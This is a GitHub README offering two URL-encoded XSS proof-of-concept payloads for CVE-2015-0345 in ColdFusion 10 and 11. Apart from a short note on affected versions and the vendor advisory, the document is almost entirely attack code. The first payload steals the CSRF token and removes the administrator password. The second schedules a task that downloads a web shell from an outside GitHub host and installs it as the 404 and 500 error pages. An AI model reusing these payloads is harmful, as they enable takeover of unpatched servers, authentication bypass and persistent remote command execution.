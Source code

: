 ColdFusion 10.x 11.x XSS -> RCE PoC Exploits
------------

This repo contains XSS vectors for CVE-2015-0345 (APSB15-07) that allow for the ability to gain remote command execution on ColdFusion installations.

This exploit is only valid for ColdFusion 10 and 11 installations. Specifically, ColdFusion 11, Update 11 and ColdFusion 10, Update 16 fixes both of these issues. More information on this disclosure can be found [here](https://helpx.adobe.com/security/products/coldfusion/apsb15-07.html).

##Payload 1

This payload disables the requirement of a password on the ColdFusion administration panel. If this payload is delivered and ran by a ColdFusion administrator, the /CFIDE/administrator directory can be accessed completely, without authentication.

`http://<target>/CFIDE/administrator/filedialog/index.cfm?type=dir%27%2c%65%78%70%61%6e%64%65%64%3a%27%5c%78%32%46%27%7d%2c%66%75%6e%63%74%69%6f%6e%28%66%69%6c%65%29%7b%70%61%74%68%20%3d%20%66%69%6c%65%3b%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%74%68%62%6f%78%22%29%2e%76%61%6c%75%65%20%3d%20%70%61%74%68%3b%7d%29%3b%24%2e%67%65%74%28%20%22%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%66%75%6e%63%74%69%6f%6e%28%20%64%61%74%61%20%29%20%7b%20%76%61%72%20%61%20%3d%20%22%5b%30%2d%39%41%2d%5a%5d%7b%34%30%7d%22%3b%20%76%61%72%20%74%20%3d%20%64%61%74%61%2e%6d%61%74%63%68%28%61%29%3b%20%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%20%78%68%72%2e%6f%70%65%6e%28%22%50%4f%53%54%22%2c%20%22%68%74%74%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%35%30%30%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%74%72%75%65%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%22%2c%20%22%74%65%78%74%2f%68%74%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%68%74%6d%6c%2b%78%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%71%3d%30%2e%39%2c%69%6d%61%67%65%2f%77%65%62%70%2c%2a%2f%2a%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6f%6e%74%65%6e%74%2d%54%79%70%65%22%2c%20%22%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%2d%4c%61%6e%67%75%61%67%65%22%2c%20%22%65%6e%2d%55%53%2c%65%6e%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%20%76%61%72%20%62%6f%64%79%20%3d%20%22%61%64%6d%69%6e%73%75%62%6d%69%74%3d%53%75%62%6d%69%74%2b%43%68%61%6e%67%65%73%26%63%73%72%66%74%6f%6b%65%6e%3d%22%20%2b%20%74%20%2b%20%22%26%41%64%6d%69%6e%41%75%74%68%3d%6e%6f%6e%65%26%63%66%61%64%6d%69%6e%5f%6f%6c%64%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%43%6f%6e%66%69%72%6d%3d%26%73%65%65%64%3d%26%61%6c%6c%6f%77%63%6f%6e%63%6c%6f%67%69%6e%3d%74%72%75%65%22%3b%20%76%61%72%20%61%42%6f%64%79%20%3d%20%6e%65%77%20%55%69%6e%74%38%41%72%72%61%79%28%62%6f%64%79%2e%6c%65%6e%67%74%68%29%3b%20%66%6f%72%20%28%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%61%42%6f%64%79%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%61%42%6f%64%79%5b%69%5d%20%3d%20%62%6f%64%79%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%3b%20%78%68%72%2e%73%65%6e%64%28%6e%65%77%20%42%6c%6f%62%28%5b%61%42%6f%64%79%5d%29%29%3b%20%7d%29%3b%24%28%27%23%66%69%6c%65%54%72%65%65%44%65%6d%6f%5f%31%27%29%2e%66%69%6c%65%54%72%65%65%28%7b%73%63%72%69%70%74%3a%27%2e%2e%2f%2e%2e%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%61%6a%61%78%74%72%65%65%2f%6a%71%75%65%72%79%46%69%6c%65%54%72%65%65%2e%63%66%6d%3f%74%79%70%65%3d%64%69%72&fromjscript=true&dialogStyle=selectDirectory&formelem=ORMSearchIndexDirectory&defaultPath=`

##Payload 2

This payload attempts to upload a CFM shell to ColdFusion via the scheduling of tasks and modification of 404 and 500 error templates. If this payload delivered and ran by a ColdFusion administrator, a web-shell is then made available at `/404.cfm` and `/500.cfm`.

`http://<target>/CFIDE/administrator/filedialog/index.cfm?type=dir%27%2cexpanded%3a%27%5cx2F%27%7d%2cfunction%28file%29%7bpath%20%3d%20file%3bdocument%2egetElementById%28%22pathbox%22%29%2evalue%20%3d%20path%3b%7d%29%3bfunction+getCSRFToken%28e%29%7Breturn+%24.get%28e%2Cfunction%28%29%7B%7D%29%7Dfunction+getFullPath%28%29%7Breturn+%24.get%28%22%2FCFIDE%2Fadministrator%2Fsettings%2Fmappings.cfm%22%2Cfunction%28e%29%7Bb%3D%22%2F.%2A%2FCFIDE%26nbsp%22%2Cu%3De.match%28b%29%2Cu%3Du%5B0%5D.replace%28%22%26nbsp%22%2C%22%22%29%7D%29%7Dfunction+postNewTask%28e%2Ct%2Cr%29%7Bvar+n%3D%22csrftoken%3D%22%2Bt%2B%22%26TaskName%3D%22%2Be%2B%22%26Group%3Ddefault%26Start_Date%3D03%252F30%252F2015%26End_Date%3D%26ScheduleType%3DOnce%26StartTimeOnce%3D8%253A44%2BPM%26Interval%3DDaily%26StartTimeDWM%3D%26customInterval_hour%3D0%26customInterval_min%3D0%26customInterval_sec%3D0%26CustomStartTime%3D%26CustomEndTime%3D%26repeatradio%3Drepeatforeverradio%26Repeat%3D%26crontime%3D%26Operation%3DHTTPRequest%26ScheduledURL%3Dhttps%253A%252F%252Fraw.githubusercontent.com%252FhatRiot%252Fclusterd%252Fa748bff7650c2b955fe1bb6a36db340e4ad4a213%252Fsrc%252Flib%252Fcoldfusion%252Ffuze.cfml%26Username%3D%26Password%3D%26Request_Time_out%3D%26proxy_server%3D%26http_proxy_port%3D%26proxy_user%3D%26proxy_password%3D%26publish%3D1%26publish_file%3D%22%2Br%2B%22%26publish_overwrite%3Don%26eventhandler%3D%26exclude%3D%26onmisfire%3D%26onexception%3D%26oncomplete%3D%26priority%3D5%26retrycount%3D3%26advancedmode%3Dtrue%26adminsubmit%3DSubmit%26taskNameOriginal%3D%26groupOriginal%3Ddefault%26modeOriginal%3Dserver%22%3Breturn+%24.ajax%28%7Burl%3A%22%2FCFIDE%2Fadministrator%2Fscheduler%2Fscheduleedit.cfm%22%2Ctype%3A%22POST%22%2Cdata%3An%7D%29%7Dfunction+executeTask%28e%2Ct%29%7Breturn+%24.get%28%22%2FCFIDE%2Fadministrator%2Fscheduler%2Fscheduletasks.cfm%3Fruntask%3D%22%2Be%2B%22%26group%3Ddefault%26mode%3Dserver%26csrftoken%3D%22%2Bt%2Cfunction%28%29%7B%7D%29%7Dfunction+setAsTemplate%28e%2Ct%29%7Bvar+r%3D%22csrftoken%3D%22%2Bt%2B%22%26LimitTime%3Dtrue%26MaxSeconds%3D60%26enablePerAppSettings%3D1%26uuidtoken%3D1%26enablehttpst%3D1%26WsEnable%3D1%26secureJSONPrefix%3D%252F%252F%26outputBufferMax%3D1024%26enableInMemoryFileSystem%3D1%26inMemoryFileSystemLimit%3D100%26inMemoryFileSystemApplicationLimit%3D20%26WatchInterval%3D120%26globalScriptProtect%3DFORM%252CURL%252CCOOKIE%252CCGI%26allowExtraAttributesInAttrColl%3D1%26cFaaSGeneratedFilesExpiryTime%3D30%26ORMSearchIndexDirectory%3D%26CFFORMScriptSrc%3D%252FCFIDE%252Fscripts%252F%26GoogleMapKey%3D%26serverCFC%3DServer%26compileExtForInclude%3D%2A%26applicationCFCLookup%3D1%26MissingTemplateHandler%3D%22%2BencodeURI%28e%29%2B%22%26SiteWideErrorHandler%3D%22%2BencodeURI%28e%29%2B%22%26postParametersLimit%3D100%26postSizeLimit%3D20%26throttleThreshold%3D4%26throttleMemory%3D200%26adminsubmit%3DSubmit%2BChanges%22%3Breturn+%24.ajax%28%7Burl%3A%22%2FCFIDE%2Fadministrator%2Fsettings%2Fserver_settings.cfm%22%2Ctype%3A%22POST%22%2Cdata%3Ar%7D%29%7Dtask_name%3D%22Coldfusion%2520Update%22%2C%24.when%28getCSRFToken%28%22%2FCFIDE%2Fadministrator%2Fscheduler%2Fscheduletasks.cfm%22%29%2CgetFullPath%28%29%29.done%28function%28e%2Ct%29%7Bvar+r%3De%5B2%5D.responseText%2Cn%3D%22%5B0-9A-Z%5D%7B40%7D%22%2Co%3Dr.match%28n%29%5B0%5D%3Bconsole.log%28o%29%3Bvar+a%3Dt%5B2%5D.responseText%2Ci%3D%22%2F.%2A%2FCFIDE%26nbsp%22%2Cs%3Da.match%28i%29%2Cs%3Ds%5B0%5D.replace%28%22%26nbsp%22%2C%22%22%29%3Bconsole.log%28o%2Cs%29%3Bvar+c%3Ds%2B%22%2Fupdate_cf.log%22%2Cl%3D%22%2FCFIDE%2Fupdate_cf.log%22%3B%24.when%28postNewTask%28task_name%2Co%2Cc%29%29.done%28function%28%29%7B%24.when%28executeTask%28task_name%2Co%29%29.done%28function%28%29%7B%24.when%28getCSRFToken%28%22%2FCFIDE%2Fadministrator%2Fsettings%2Fserver_settings.cfm%22%29%29.done%28function%28e%29%7Bvar+t%3De%2Cr%3D%22%5B0-9A-Z%5D%7B40%7D%22%2Cn%3Dt.match%28r%29%5B0%5D%3B%24.when%28setAsTemplate%28l%2Cn%29%29.done%28function%28%29%7Bconsole.log%28%22%25c+Shell+can+be+found+at+%22%2Bdocument.location.origin%2B%22%2F404.cfm%22%2C%22background%3A+%23D14126%3B+color%3A+white%22%29%2Cconsole.log%28%22%25c+Shell+can+be+found+at+%22%2Bdocument.location.origin%2B%22%2F500.cfm%22%2C%22background%3A+%23D14126%3B+color%3A+white%22%29%2Cconsole.log%28%22%25c+Username%3A+god%2C+Password%3A+default%22%2C%22background%3A+%23D14126%3B+color%3A+white%22%29%7D%29%7D%29%7D%29%7D%29%7D%29%3B%24%28%27%23fileTreeDemo_1%27%29%2efileTree%28%7bscript%3a%27%2e%2e%2f%2e%2e%2fadministrator%2fajaxtree%2fjqueryFileTree%2ecfm%3ftype%3ddir&fromjscript=true&dialogStyle=selectDirectory&formelem=ORMSearchIndexDirectory&defaultPath=`
